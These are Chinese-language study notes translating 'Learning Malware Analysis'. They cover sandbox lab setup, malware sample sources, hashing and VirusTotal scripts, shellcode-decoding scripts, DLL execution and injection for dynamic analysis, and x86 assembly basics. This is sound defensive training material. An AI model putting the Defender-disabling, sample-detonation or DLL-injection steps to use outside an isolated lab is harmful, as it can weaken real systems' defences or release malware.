#  Malware Analysis
最后更新：2022-11-18
[译][@x7peeps](https://github.com/x7peeps) 
书名：《K A, Monnappa. Learning Malware Analysis: Explore the concepts, tools, and techniques to analyze and investigate Windows malware. Packt Publishing. Kindle 版本. 》



## 免责说明
[@x7peeps](https://github.com/x7peeps) 纯粹出于学习目的与个人兴趣翻译本书。本人承诺绝不用此译文谋取任何形式的经济利益。也坚决拒绝其他任何人以此牟利。本译文只供学习研究参考之用，不得用于商业用途。[@x7peeps](https://github.com/x7peeps) 保留对此版本译文的署名权及其它相关权利。若有人使用本译文进行侵权行为或者违反知识产权保护法的任何行为，与本译者无关。译者坚决反对此类行为。

基于开源精神，译者欢迎一切基于学习研究目的的转发，但**任何转载必须注明出处。**

## 译者的话
本书是一本针对样本分析学习的相对系统的一本书籍，介绍了从基本分析到进阶样本分析所应具备的基本技能和实战案例，具有教学、指导意义。

对于本书的翻译工作完全出于兴趣和学习需要，因此中间的一些翻译可能并不是特别好，也有可能有各种语法问题，因此要先说声抱歉。同时，本书是我在工作之余时间完成的，也欢迎指正，我在看到的时候也会积极配合处理。对于本书的专业内容，因为理解有限或者有些我们国内的一些专有名词可能由于我在翻译的时候直译较多而影响理解。译者的目标是希望能够为大家尽可能的还原本书的主要意思，在原理以及具体实操中的某些图片根据本人实操有所替换，其中的代码某些根据当前python3版本做了更新，修改了遇到的bug，大家在看的时候可能与原版会有所不同。此外在本书的第一章实验环境部分，我保留了主要配置需要的主要步骤，去掉了额外的杂项，如有需要可以翻阅下原文。

最后，感慨一下，本书提到的某些组织基本上都是俄罗斯及中国较多，希望国内的二进制发展越来越好，相关书籍也能越来越多。

## 更新记录
[TOC]
| 更新日期   | 编辑 |    内容    | 备注                           |
| ---------- | ---: | :--------: | ------------------------------ |
| 2019-05-23 | XT | 格式化内容 | 第一次建立更新目录跟踪记录变更 |
| 2019-08-02 | XT | 新增内容 | add实战分析记录模块增加分析经验记录 |
｜2022-06-25 ｜ XT | 完成整体初版翻译 ｜ 翻译部分结束，进入校对和维护阶段 ｜

## 1 配置实验环境 Setting Up the lab environment

Linux: ubuntu 16.04 desktop
Windows: windows 2008

### 1.1 Linux
> 目前Linux已经有更加集成的专项应急分析的linux操作系统，其中也包含了这里面使用的发部分工具，可以直接选用REMnux。

Linux after install system:
third-party packages: 

```bash
sudo apt-get update
sudo apt-get install python-pip
pip install --upgrade pip

python tools:
sudo apt-get install python-magic
sudo apt-get install upx
sudo pip install pefile
sudo apt-get install yara
sudo pip install yara-python
sudo apt-get install ssdeep
sudo apt-get install build-essential libffi-dev python python-dev \ libfuzzy-dev
sudo pip install ssdeep
sudo apt-get install wireshark 
sudo apt-get install tshark

INetSim(网络状态模拟器)：
sudo su
sudo echo "deb http://www.inetsim.org/debian/ binary/" >/etc/apt/sources.list.d/inetsim.list 
wget -O - --no-check-certificate http://www.inetsim.org/inetsim-archive-signing-key.asc | apt-key add -
apt update
apt-get install inetsim
```
以上安装完毕，labubuntu 切换仅主机模式

####  LinuxVM config:
1.配置ubuntu静态网络static IP: 192.168.1.100

sudo gedit /etc/network/interfaces
```
auto lo
iface lo inet loopback

auto ens33
iface ens33 inet static
address 192.168.1.100
netmask 225.255.255.0
```
service networking restart
或者重启ubuntu
ifconfig确认

2. 配置ubuntu中的inetsim配置
修改inetsim默认配置：
sudo gedit /etc/inetsim/inetsim.conf
```
在默认配置service_bind区域追加,并注释掉默认配置：
service_bind_address 192.168.1.100
```

配置DNS服务，已用于DNS服务：

```
在配置dns区域追加以下内容并注释掉原默认配置：
dns_default_ip 192.168.1.100
```
运行测试：
```sudo inetsim```
检查配置

3. 配置第三方软件：
python 2.7 (仅限本书)

**check point**
确认windows主机网段：192.168.1.105  DNS：192.168.1.100
测试win和linux之间联通节点







### 1.2 WINDOWS
WINDOWS VM config:
主机网络配置：192.168.1.101 DNS:192.168.1.100
关闭Defender（win10/7, win2008没有Windows Defender）:
	Windows Defender 服务需要在虚拟机禁用掉。运行》gpedit.msc》本地计算机策略》计算机配置》管理模板》windows组件》 Windows Defender（Windows10里面叫“Windows Defender防病毒程序”） 
	在右边部分双“关闭WindowsDefender策略”关闭Windows Defender防病毒程序。（下图为Win10的图）


配置虚拟机使其允许双向复制粘贴剪切板。
两个虚拟机全部配置完毕，拍摄快照保存初始化状态。此时，linux和windowsVM均配置为Host-Only仅主机模式，并且能够互通。

##### windows安装必要的分析工具
下面是一些可以用来下载恶意文件样本的网站：
Hybrid Analysis: https://www.hybrid-analysis.com/ 
KernelMode.info: http://www.kernelmode.info/forum/viewforum.php?f=16 
VirusBay: https://beta.virusbay.io/ 
Contagio malware dump: http://contagiodump.blogspot.com/ 
AVCaesar: https://avcaesar.malware.lu/ 
Malwr: https://malwr.com/ 
VirusShare: https://virusshare.com/ 
theZoo: http://thezoo.morirt.com/
其他恶意软件样本源你可以在下面的博客中找到：You can find links to various other malware sources in Lenny Zeltser's blog post https://zeltser.com/malware-sample-sources/. 
个人收集工具：

对于在虚拟机中运行的监控类软件还应该注意修改程序名称：
wireshark主程序修改入口程序名称可以改变进程名



## 2 静态分析
静态分析不执行程序，从二进制文件获取信息。
静态分析主要包含：
	识别目标样本框架
	恶意文件指纹
	使用反病毒引擎扫描可疑二进制文件
	提取字符，函数或使用file获取目标相关数据
	确定在文件分析过程中的混淆技术
	分类对比恶意文件样本

#### 0x01 确定文件类型
##### 手动方式识别文件类型
工具：
Windows systems, HxD hex editor  (https://mh-nexus.de/en/hxd/)
Linux systems, to look for the file signature, the ```xxd``` command can be used.

##### 工具方式识别文件类型
On Windows, CFF Explorer, part of Explorer Suite (http://www.ntcore.com/exsuite.php), can be used to determine the file type; windows下也可以在网上找到file.exe，通过file进行文件类型识别。
Linux system，the ```file``` command can be used.

##### python方式识别文件类型

python-magic模块
pip install python-magic

```python
import magic
figlet =""
m=magic.open(magic.MAGIC_NONE)
m.load()
try:
    ftype=m.file(sys.argv[1])
    print ftype
except Exception as e:
    figlet = '''File type               Author XT.        '''
    print figlet+"\nUsage: python filemagic.py <file>"
```
Test success on Python 2.7.13 Windows10:
```python
import magic
import sys,os
figlet =""
try:
    file=sys.argv[1]
except Exception as e:
    print "[Debug]Error :"+str(e)
    sys.exit()
if os.path.exists(file):
    try:
        m=magic.from_file(file)
        print m
    except Exception as e:
        print "[Debug]Error :"+str(e)
else:
    figlet = '''File type               Author XT.        '''
    print figlet+"\nUsage: python filemagic.py <file>"
    print "[Error]No such file or directory:", file
    sys.exit()
```
#### 0x02 恶意软件指纹
恶意软件的hash
恶意软件释放的新样本的hash
##### 使用工具获取hash
Linux使用the md5sum, sha256sum, and sha1sum
windows使用HashMyFiles (http://www.nirsoft.net/utils/hash_my_files.html)

##### 使用python获取hash
```python
import hashlib
import sys,os
# https://docs.python.org/2/library/hashlib.html
try:
    file=sys.argv[1]
except Exception as e:
    print "[Debug]Error :"+str(e)
    sys.exit()
if os.path.exists(file):
    try:
        content = open(file,"rb").read()
        print "md5:"+hashlib.md5(content).hexdigest()
        print "sha1:"+hashlib.sha1(content).hexdigest()
        print "sha256:"+hashlib.sha256(content).hexdigest()
    except Exception as e:
        print "[Debug]Error :"+str(e)
else:
    figlet = '''File hash               Author XT.        '''
    print figlet+"\nUsage: python filehash.py <file>"
    print "[Error]No such file or directory:", file
    sys.exit()
```
#### 0x03 病毒扫描
##### virustotal检测
通过多种病毒扫描引擎扫描结果帮助我们更好判断文件样本情况，节约我们分析的时间。
VirusTotal (http://www.virustotal.com)
详情：https://support.virustotal.com/hc/en-us/articles/115005002585-VirusTotal-Graph.
https://support.virustotal.com/hc/en-us/articles/115003886005-Private-Services

```python
import urllib
import urllib2
import json
import sys
hash_value = sys.argv[1]
vt_url = "https://www.virustotal.com/vtapi/v2/file/report"
api_key = "<virustotal api>"
parameters = {'apikey': api_key, 'resource': hash_value}
encoded_parameters = urllib.urlencode(parameters)
request = urllib2.Request(vt_url, encoded_parameters)
response = urllib2.urlopen(request)
json_response = json.loads(response.read())
if json_response['response_code']:
    detections = json_response['positives']
    total = json_response['total']
    scan_results = json_response['scans']
    print "Detections: %s/%s" % (detections, total)
    print "VirusTotal Results:"
    for av_name, av_data in scan_results.items():
        print "\t%s ==> %s" % (av_name, av_data['result'])
else:
    print "No AV Detections For: %s" % hash_value
```
利用virustotal hunter功能yara规则抓样本
https://bbs.pediy.com/thread-223070.htm
##### alienvault检测
使用alienvault进行威胁检测：
开发sdk:(https://github.com/AlienVault-OTX/OTX-Python-SDK)
API介绍: (https://otx.alienvault.com/api)
sdk中example文件中is_malicious有个已经集成了的用于检测威胁的脚本，可以借助其进行是否存在恶意检测。
https://github.com/AlienVault-OTX/OTX-Python-SDK/blob/master/examples/is_malicious/is_malicious.py 

otx.bat

```python
#!/usr/bin/env python
#  This script tells if a File, IP, Domain or URL may be malicious according to the data in OTX

from OTXv2 import OTXv2
import argparse
import get_malicious
import hashlib


# Your API key
API_KEY = '<API KEY>'
OTX_SERVER = 'https://otx.alienvault.com/'
otx = OTXv2(API_KEY, server=OTX_SERVER)

parser = argparse.ArgumentParser(description='OTX CLI Example')
parser.add_argument('-ip', help='IP eg; 4.4.4.4', required=False)
parser.add_argument('-host',
                    help='Hostname eg; www.alienvault.com', required=False)
parser.add_argument(
    '-url', help='URL eg; http://www.alienvault.com', required=False)
parser.add_argument(
    '-hash', help='Hash of a file eg; 7b42b35832855ab4ff37ae9b8fa9e571', required=False)
parser.add_argument(
    '-file', help='Path to a file, eg; malware.exe', required=False)

args = vars(parser.parse_args())


if args['ip']:
    alerts = get_malicious.ip(otx, args['ip'])
    if len(alerts) > 0:
        print('Identified as potentially malicious')
        print(str(alerts))
    else:
        print('Unknown or not identified as malicious')

if args['host']:
    alerts = get_malicious.hostname(otx, args['host'])
    if len(alerts) > 0:
        print('Identified as potentially malicious')
        print(str(alerts))
    else:
        print('Unknown or not identified as malicious')

if args['url']:
    alerts = get_malicious.url(otx, args['url'])
    if len(alerts) > 0:
        print('Identified as potentially malicious')
        print(str(alerts))
    else:
        print('Unknown or not identified as malicious')

if args['hash']:
    alerts =  get_malicious.file(otx, args['hash'])
    if len(alerts) > 0:
        print('Identified as potentially malicious')
        print(str(alerts))
    else:
        print('Unknown or not identified as malicious')


if args['file']:
    hash = hashlib.md5(open(args['file'], 'rb').read()).hexdigest()
    alerts =  get_malicious.file(otx, hash)
    if len(alerts) > 0:
        print('Identified as potentially malicious')
        print(str(alerts))
    else:
        print('Unknown or not identified as malicious')

```



#### 0x04 OFFICE分析
工具包 git clone https://github.com/decalage2/oletools.git
或者这样安装：

- On Linux/Mac: `sudo -H pip install -U oletools`
- On Windows: `pip install -U oletools`
帮助文档：https://github.com/decalage2/oletools/wiki
##### rtfobj分析
https://github.com/decalage2/oletools/wiki/rtfobj
http://decalage.info/rtf_tricks
rtf格式判断：
文档内容：“{\ rtvpn”。通常，RTF文件应以“{\ rtfN”开头，其中N标识RTF文档的主要版本；




###### shellcode 混淆

使用自定义脚本提取关键内容
```
paul@lab:~$ cat decode.py
#!/usr/bin/python
 
import sys
import os
 
file = open(sys.argv[1], 'r')
offset = int(sys.argv[2])
key = 0x00
file.seek(offset)
 
while offset <= os.path.getsize(sys.argv[1])-1:
   data = ord(file.read(1)) ^ key
   sys.stdout.write(chr(data))
   offset = offset+1
   key = (key + 1) & 0xFF
file.close()
 
 
paul@lab:~$ cat decode2.py
#!/usr/bin/python
 
import sys
import os
 
file = sys.stdin
sys.stdout.write(file.read(9))
offset = 9
 
while file:
   data = file.read(1)
   if not data:
      break
   offset = offset+1
   data2 = file.read(1)
   offset = offset+1
   if offset <= 512:
      sys.stdout.write(data2)
      sys.stdout.write(data)
   else:
      sys.stdout.write(data)
      sys.stdout.write(data2)
```

参考文章：
http://www.sekoia.fr/blog/ms-office-exploit-analysis-cve-2015-1641/
http://www.reconstructer.org/papers.html

#### 0x05 dns分析
##### PTR记录反查
http://www.ptrrecord.net/ 
PTR记录通常用于指向邮件服务器DNS主机A记录，因此其IP与主站IP相同，攻击者通过此记录尝试隐藏域名。


##  3. 动态分析
动态分析过程中，当恶意程序执行的时候，需要监控其行为。目标过程的目标是获取恶意程序行为的实时数据，以及其对操作系统的影响。以下是异形不同种类的监控在动态分析过程中用来获取的信息情况：
	进程监控：涉及到监控进程的行为和检查在病毒执行过程中系统性能的影响
	文件系统监控：应该包括在恶意软件执行过程中实时文件系统监控
	注册表监控：主要包括被恶意软件读写的注册表关键值的访问和改动以及注册表的数据
	网络监控：包括在恶意软件执行过程中的实时的网络状态监控
动态分析工具：
	进程监控工具： Process Hacker (http://processhacker.sourceforge.net/) 能够用于监控进程变化、网络传输概况、磁盘读写概况等。
	进程监控：Process Monitor(https://technet.microsoft.com/en-us/sysinternals/processmonitor.aspx)确定系统交互。crtl+E停止抓取事件，ctrl+x清除事件，ctrl+L过滤事件。
	系统监控活动：Noriben (https://github.com/Rurik/Noriben)便携式，简单，恶意软件分析沙箱,一般需要配合processmonitor
	安装程序监视器：Installspy 
https://www.majorgeeks.com/files/details/installspy.html

* noriben
https://github.com/Rurik/Noriben
Noriben是一个基于Python的脚本，与Sysinternals Procmon一起使用，可以自动收集，分析和报告恶意软件的运行时指标。简而言之，它允许您运行应用程序，点击按键，并获得样本活动的简单文本报告。

Noriben不仅允许您运行类似于沙箱的恶意软件，还可以在您以特定方式手动运行恶意软件以使其运行时记录系统范围的事件。例如，它可以在您运行需要不同命令行选项或用户交互的应用程序时进行侦听。或者，在调试器中单步执行应用程序时观察系统。

虽然Noriben是专为分析恶意软件而设计的，但它也被广泛用于审计正常的软件应用程序。2013年，Tor项目使用它来提供Tor浏览器套件的公共审计

下面是一个调试VM检查恶意软件的视频，其方式仍然是获取沙箱结果（由于鼠标指针关闭5个像素而导致误点击:)）
	
	
https://ghettoforensics.blogspot.com/2013/04/noriben-your-personal-portable-malware.html
	

### 1. 分析步骤

1. 样本字符分析
file
2. virtual分析
动态分析
1. 样本机和监控机启动
2. windows启动：process hacker、noriben
3. linux启动：inetsim，wireshark
4. 使用管理员身份运行样本40秒左右
5. 停止noriben、inetsim、wireshark
6. 收集检查理解样本行为

### 2. DLL分析

cff explorer tool	

If you wish to know more about Dynamic-Link Libraries, read the following documents: https://support.microsoft.com/en-us/help/815065/what-is-a-dll and https://msdn.microsoft.com/en-us/library/windows/desktop/ms681914(v=vs.85).aspx.

#### 为什么攻击者使用dll

1. dll不能双击运行，需要宿主进程执行。将恶意代码打包进dll，恶意程序作者能够使用任何进程加载他的dll，包括合法的进程例如explorer.exe、winlogon.exe等。这些技术可以帮助隐藏攻击者的行为，并且所有恶意行为将会隐藏在宿主程序下执行。
2. 将dll注入到已经运行的程序将可以帮助攻击者长时间驻留在系统
3. 当dll被一个程序加载进内存空间，dll还拥有整个程序内存的访问权限。从而给它操纵程序功能的能力。例如，攻击者可以注入dll到浏览器程序进程，偷取其重定向API函数的凭证。

#### 使用rundll32.exe分析dll

使用动态分析对于判断恶意程序的行为至关重要。对于前面提到的dll需要一个程序进程运行。在windows中rundll32.exe能够被用来运行dll调用一个外部函数。
```
rundll32.exe <full path to dll>,<export function>,optional arguments>
```
与rundll32.exe相关的参数：
full path to dll：指定的dll地址，这个地址不能包含空或者特殊字符
export function:这个函数在dll中并且能够在dll加载之后调用
optional arguments:可选参数
逗号：用来表示dll中的某函数

##### 1. rundll32.exe工作原理

明白rundll32工作原理对于在执行dll时避免一些错误非常重要。当你运行rundll32.exe的时候使用命令行+参数形式执行，当执行rundll32.exe时发生的是:
1. 命令行参数通过rundll32.exe被首先执行；如果语法正确，则rundll32.exe执行
2. 如果语法正确，执行加载提供的dll。作为加载dll的结果，dll切入口函数被执行（这在调用住dllmain）。大部分恶意程序实现他们的恶意代码通过dllmain函数。
3. 在架在dll之后，获取外部函数及调用函数地址。如果函数地址不能被确认，则rundll32.exe中断。
4. 如果可选参数提供，则可选函数将提供额外的扩展函数调用


rundll32详细信息工作原理详解: https://support.microsoft.com/en-in/help/164787/info-windows-rundll-and-rundll32-interface.
##### 2. 使用rundll32.exe运行dll几个场景
恶意样本时常调用dll运行，下面几个场景可以帮助识别dll的运行路径
###### 01.无函数输出的dll分析
当dll被调用，dllmain主函数作为入口函数被调用。攻击者在dllmain函数中直接实现键盘记录，信息窃取等操作，期间无任何函数输出。



> 可能会遇到c:\rundll32.exe c:\samples\aa.dll报错不执行可尝试c:\rundll32.exe c:\samples\aa.dll,test尽管报错但可以执行

###### 02. 分析一个包含输出的dll
使用cff，可以看到出口函数表。



可能会遇到C:\>rundll32.exe c:\samples\obe.dll,test运行dll但是dll没有任何行为的时候考虑dll入口函数没有实现任何函数。如果使用c:\rundll32.exe c:\samples\obe.dll,dllregisterserver直接调用可以触发cc回链请求，因此可以推断出这个函数实现网络连接功能。

这里有一个相关fuzz恶意dll函数的工具可以用来方便检测：
DLLRunner (https://github.com/Neo23x0/DLLRunner)
DLLRunner是一个智能DLL执行脚本，用于沙盒系统中的恶意软件分析。
它不是通过“rundll32.exe file.dll”执行DLL文件，而是分析PE并按名称或序号执行所有导出的函数，以确定其中一个函数是否导致恶意活动。

###### 03. 分析带参数输出的dll
> 这里有个典型的案例，样本使用powerpoit加密尝试绕过安全检测分析：https://securingtomorrow.mcafee.com/mcafee-labs/threat-actors-use-encrypted-office-binary-format-evade-detection/


一个dll（searchcache.dll）由出口函数，具有删除文件功能函数的_flushfile@16函数组成。这个出口函数能够接收一个参数，用来接收要删除的文件：（cff图）



测试其函数：
rundll32.exe c:\samples\SearchCache.dll,_flushfile@16 C:\samples\file_to_delete.txt

noriben日志可以记录rundll32.exe删除操作。
Processes Created:
[CreateProcess] cmd.exe:1100 > "rundll32.exe  c:\samples\SearchCache.dll,_flushfile@16 C:\samples\file_to_delete.txt" [Child PID: 3348]
File Activity:
[DeleteFile] rundll32.exe:3348 > C:\samples\file_to_delete.txt

##### 3. 通过进程检查分析dll
大多数时候，使用rundll32.exe运行dll是没问题的，但是如果他们只运行在特定的程序下（explorer.exe或者iexplore.exe)等的DLL检查，当样本程序发现他运行在其他进程中他们的行为可能发生改变或者杀死自己的进程。在这种情况下，需要将dll注入到指定程序以触发其行为。

##### RemoteDLL
RemoteDll(http://securityxploded.com/remotedll.php)
允许DLL注入任何正在运行的进程。它允许使用3种不同的方式注入dll。

###### TDSS Rootkit一个组件tdl.dll样本分析
这个样本不包含任何输出；所有的恶意代码都在dll的入口函数中实现。使用下面的命令执行会导致一个DLL初始化例程报错，说明程序没有正确执行：


通过静态分析代码，发现DLL入口函数包含一个确认检查（运行在spoolsv.exe下面）如果运行在其他程序下，dll就会初始化例程错误。


为了触发行为，恶意DLL必须注入到spoolsv.exe进程中。之后可以通过捕捉正常观察到程序操作。

> 病毒分析过程中，可能会遇到一些dll只有当其作为服务时才会运行。这种DLL成为服务DLL。对于这种DLL的分析需要有windows API 相关知识基础。（后面会提到）

基于基础动态分析有其局限，为了获取更深的洞察，需要代码分析（逆向分析）
例如，大多数样本使用c2服务加密通信。使用动态分析我们能够确定加密通信，但是无法获得其通信内容，因此我们需要了解如何进行代码分析。

## 4. 汇编及反汇编入门

动态和静态分析提供了了解恶意程序函数的好办法，单数不足以，提过所有关于恶意程序的信息。病毒坐着通常使用C或C++编写病毒程序，通过编译器编译。在你的调查过程中，你只有可执行的恶意程序，没有源代码。为了获得更深的关于恶意程序的内部工作和了解，代码分析是其至关重要的方面。

这一块最好提前拥有C语言的基础，及汇编基础。这一块的相关资源可在继续之前学习：
    计算机基础、内存及CPU
    数据转换，结构及位运算
    分支和循环
    功能和堆栈
    数组，字符和结构
    64x架构框架


<!--more-->

> 本系列主要内容来自《K A, Monnappa. Learning Malware Analysis: Explore the concepts, tools, and techniques to analyze and investigate Windows malware. Packt Publishing. Kindle 版本. 》的记录

### 1. 计算机基础

计算机所有信息使用bits基本单位表示，1和0两种状态。bits的组合可以表示数字，字符以及任意信息。

**数据种类基础**
1 bytes=8 bits
0.5 bytes=1 nibble(bits)
1 word=2 bytes
dword=4 bytes=32 bits
quadword(qword)= 8 bytes=64 bits

**数据解释**
1 byte 或者 bytes 字节序列，能够被解释成不同的意思。
类似的2 bytes也可以被解释成不同的意思，汇编指令或者数字。
dword 也可以被解释成一串数或代表内存地址。如何被解释取决于如何使用它。

#### 1.1 内存
主内存（RAM）主要存储机器码以及计算机数据。RAM主要是一串字节（bytes）16进制字节序列，每个字节由地址标记。地址起始0终止于被使用量结尾。一个地址和值被16进制表示。

##### 1.1.1 数据如何驻留内存
在内存中，数据存储被存储在低优先级的格式中；一个低位存储在低地址，字节序列被递归存储在内存高地址中。



#### 1.2 CPU
CPU执行的指令通常称为机器指令，当需要取数据时从内存取数据。CPU包含一小块内存寄存器组。被用来存储在执行命令时从内存读取的数据。

##### 1.2.1 机器语言
每个CPU有一套它能够执行的指令集。CPU执行的指令是由机器语言组成。机器指令被存储在内存作为字节序列被CPU获取，解释，执行。

编译器是一个用于将高级语言解释成机器语言的程序。

#### 1.3 程序基础
##### 1.3.1 程序编译
程序编译过程：
1. C/C++编写代码
2. 编译器编译成机器码或object文件
3. 连接器linker将目标代码与DLL文件生成系统可执行的程序



##### 1.3.2 运行在磁盘的程序
通过PE[ internals tools - PeInternals](http://www.andreybazhan.com/pe-internals.html)打开编译过的可执行程序，显示出通过编译器生成的五部分（.text,.rdata,.data,.rsrc,.reloc）。如静态分析里提到的内容相同。这里主要关注.text和.data两部分。
例如程序中存在一串字符。这些字符存储在.data部分在文件偏移0x1E00位置。这个字符不属于代码部分，但是属于程序需要的数据。相同的方式.rdata部分是只读数据和有时包含的（import/export）数据。.rsrc部分包含被执行程序使用的资源。


.text部分字节序列（具体来说是35字节）是从0x400开始的机器码。机器码中包含了CPU将要执行的指令。编译器编译之后会在存储时分为data和code两部分。


为了简单起见在磁盘中的程序结构可以记为：可执行程序的组成部分就是code(.text)和data（data,.rdata等等)。

##### 1.3.3 在内存中的程序
当程序被加载到内存中时的情况。
过程：
双击应用程序之后，一个进程被操作系统分配到内存，并且可执行的被操作系统加载程序加载到分配的内存。下面的简化内存布局会帮助我们可视化概念；在磁盘中的结构和内存中的结构很相似。




由图中可见，堆(heap)被用来在程序执行的时候动态分配内存，它的内容可以是变化的。堆被用来存储本地的变量，函数参数和返回的地址。内存还与链接库DLL有关。

使用x64dbg调试器https://x64dbg.com/#start 加载可执行程序到内存0x13FC71000，并且所有的可执行部分都加载到内存中。这个地址是虚拟地址。虚拟地址最终将会被翻译成物理地址。




检查.data部分开始记录的字符：一般会有"This is a simple program."，而我测试的这个hackprocess没有：





监测.text部分的内存地址，显示部分字节的机器码：



一旦可执行部分包含的code和data被加载到内存，cpu从内存中获取机器码，解释并执行它。当执行机器指令时会从内存获取数据data。


当执行指令时，程序可与输入输出设备交互。例如：在程序执行的时候，字符串被打印在电脑屏幕上。同样也可以接收字符。

总结，当程序执行时经历了下面几步：
1. 程序加载进内存
2. CPU获取机器指令，解释并执行
3. CPU从内存获取数据，数据可写入内存
4. CPU可与输入输出设备交互

##### 1.3.4 程序反汇编（从机器码到汇编指令）
由于机器码极不方便阅读，因此反汇编调试工具（IDA或者x64dbg）可以用来转换机器码到汇编指令，这样可以方便阅读及分析程序的工作。
### 2. CPU寄存器
CPU包含特殊的存储成为寄存器。 CPU访问寄存器里的数据比访问内存中的数据要快的多。因为内存中的数据要先拿到寄存器中再被CPU执行。
#### 2.1 通用寄存器
x86CPU有8个通用寄存器：eax,ebx,ecx,edx,esp,ebp,esi,edi。这些寄存器是32位（4字节）。程序可以获取寄存器32位，16位，8位值。每个寄存器的低16位（2字节）可以用ax,bx,cx,dx,sp,bp,si,di访问。eax.ebx,ecx,edx的低8位还可以通过al,bl,cl,dl引用。对应的高8位可以通过ah,bh,ch,dh访问。举例如下图所示：



#### 2.2 指令指针（EIP）
CPU存在一个特殊的寄存器eip；它包含下一个要执行的的指令的地址。当指令被执行，eip将会指向内存中下一个将被执行的指令地址。


#### 2.3 EFLAGS寄存器
eflags寄存器是32位寄存器，该寄存器的每一位都代表一个特殊含义的标记。eflags中的位使用来代表CPU运算中计算或控制的状态的。flag寄存器通常不直接引用，但是在执行计算或控制时，每一位会根据结果进行变化。

除此之外还有一些额外的寄存器被称为段寄存器：cs,ss,ds,es,fs,gs，被用来在内存中保持追踪的。

### 3. 数据转移指令MOV
通用的用法就是将src值移动到dst中：
```assembly
mov dst,src
```
#### 3.1 移动常数到寄存器
移动常数或者立即数到寄存器 
not part of the assembly instruction. This is just a brief description to help you understand this concept: mov eax,10  ; moves 10 into EAX register, same as eax=10
mov bx,7    ; moves 7 in bx register, same as bx=7
mov eax,64h ; moves hex value 0x64 (i.e 100) into EAX

#### 3.2 移动值从一个寄存器到另一个
```assembly
mov ebx,10  ; moves 10 into ebx, ebx = 10
mov eax,ebx ; moves value in ebx into eax, eax = ebx or eax = 10
```

#### 3.3 移动值从内存到寄存器
```int val=100``` 在程序执行时发生的情况：
1. 整数长度为4字节，因此整数100在内存中被存储为（00 00 00 64）
2. 4字节序列被按照低位优先格式存放
3. 整数100被存储在相同的内存地址下。



在汇编语言中，移动内存中的值到寄存器中，必须要使用值的地址。
方括号指定的时要保存的值在内存中的地址。
```assembly
mov eax,[0x403000] ; eax will now contain 00 00 00 64 (i.e 100)
```

这里无需指定4字节，基于目标寄存器的大小，CPU会自动确认需要移动多少字节。



逆向过程中的其他类型还有如，方括号包含寄存器、常数+寄存器、寄存器+寄存器的形式。
```assembly
mov eax,[ebx]     ; moves value at address specifed by ebx register
mov eax,[ebx+ecx] ; moves value at address specified by ebx+ecx
mov ebx,[ebp-4]   ; moves value at address specified by ebp-4
```

* 另一个常见的指令lea指令
代表加载真实地址；这种指令会加载地址而不是值。将源地址传递给目的寄存器。
```assembly
lea ebx,[0x403000] ; loads the address 0x403000 into ebx
lea eax, [ebx]     ; if ebx = 0x403000, then eax will also contain 0x403000
```

* 还可能会遇到
dword ptr 表明4字节（dword）值从ebp-4地址移动到eax：
```assembly
mov eax,dword ptr [ebp-4]  ; same as mov eax,[ebp-4]
```


#### 3.4 移动值从寄存器到内存
你通过移动操作数可以移动一个值从一个寄存器到内存，内存地址在目标位置在左边，寄存器在右边。
```assembly
mov [0x403000],eax ; moves 4 byte value in eax to memory location starting at 0x403000
mov [ebx],eax   ; moves 4 byte value in eax to the memory address specified by ebx
```
dword ptr指定放入的格式4字节，word ptr指定2字节放入内存地址。
```assembly
mov dword ptr [402000],13498h ; moves dword value 0x13496 into the address 0x402000
mov dword ptr [ebx],100   ; moves dword value 100 into the address specified by ebx,也就是00 00 00 64
mov word ptr [ebx], 100    ; moves a word 100 into the address specified by ebx，也就是00 64
```


#### 3.5 反汇编挑战
```assembly
mov dword ptr [ebp-4],1  ➊;[ebp-4]=00 00 00 01
mov eax,dword ptr [ebp-4]  ➋;eax=00 00 00 01
mov dword ptr [ebp-8],eax ;[ebp-8]=00 00 00 01,也就是把1给[ebp-8]
```

#### 3.6 反汇编解法

简单的方式理解反汇编代码，在对比c语言中，一个定义的变量实际上就是一个内存地址的象征名字。经过逻辑，然后可以定义内存地址给他们一个象征的名字。
> 内存地址，直接给一个标记名字，如[ebp-4]=a,[ebp-8]=b

```assembly
say, ebp-4 = a and ebp-8 = b. Now, the program should look like the one shown here: mov dword ptr [a],1     ; treat it as mov [a],1
mov eax,dword ptr [a]   ; treat it as mov eax,[a]
mov dword ptr [b],eax   ; treat it as mov [b],eax
```
在高级语言中你可以分配一个值给变量，val=1。在汇编中表示为mov [val],1
> 相同逻辑高级编程语言替换

```
a = 1
eax = a
b = eax ➍
```
由于CPU使用寄存器暂存，因此还需要使用右边的标记值替换寄存器的名字，例如eax使用a替换
> 寄存器使用右边的复制标记值替换

```
a = 1
eax = a
b = a
```
通过观察可以看到整个过程eax是作为暂时保存值使用的，因此，这里可以移除。
> 移除多余的语句

```
a=1
a=b
```
在高级语言中，变量都有数据类别。尝试定义这些变量的数据类别。有时定义这些数据类别需要通过他们访问和使用的值来确定。从汇编语言中可以看到dword 4字节表示的1（也就是00 00 00 01）被移动到a变量中，之后又赋值给了b。因此知道a，b的类型是4字节dword，因此他们可能是int，fload或者pointer。

变量a，b不可能是fload，因为通过反汇编代码我们知道eax参与了数据操作的过程中。如果它是浮点值，那么标记寄存器一定会被使用，而不是使用通用寄存器eax。

而a，b不可能是pointer指针的原因是，他们赋值为1，一个常数，而不是一个地址，因此最终确定是整数类型。
> 确认变量的类型，结束

```
int a;
int b;
a=1;
b=a;
```
对比原始c语言片段可以看到，并不是每次都可以反汇编出一模一样的代码，但是其语言的意思已经是无差别了。

```
int a=1;
int b;
b=a;
```
如果反汇编一个大程序，标记所有的内存地址可能会很困难。尤其是使用反汇编或者调试器去崇明名内存地址然后执行代码分析。
> 当处理大程序的时候，好的做法是将程序拆分成程序块，然后分段反汇编，之后再用相同的方法去处理剩余的块。


### 4. 算数运算
加减乘除。
* 加减：add，sub。
这两个指令有两个操作数目的des和源src。都是用目的操作数加或者减源操作数，然后保存在目的操作数中，同时设置或者清除eflags寄存器的的标志位。 这些标记可以被用在条件语句。当sub执行之后等于0，zf标志位设置为0，并且如果目的操作数的值小于源操作数时，进位标志位cf，还应打标。

下面是几中命令变化：
```assembly
add eax,42      ; same as eax = eax+42
add eax,ebx     ; same as eax = eax+ebx
add [ebx],42    ; adds 42 to the value in address specified by ebx,ebx的地址加42
sub eax, 64h    ; subtracts hex value 0x64 from eax, same as eax = eax-0x64
```
特殊的加(inc)减(dec)命令，可被用于寄存器或者内存地址的加一或者减一操作。
```assembly
inc eax    ; same as eax = eax+1
dec ebx    ; same as ebx = ebx-1
```
* 乘法：mul
mul只有一个操作数，使用al，ax或者eax寄存器乘以操作数，结果保存在ax或者dx+ax或者edx+eax寄存器中。
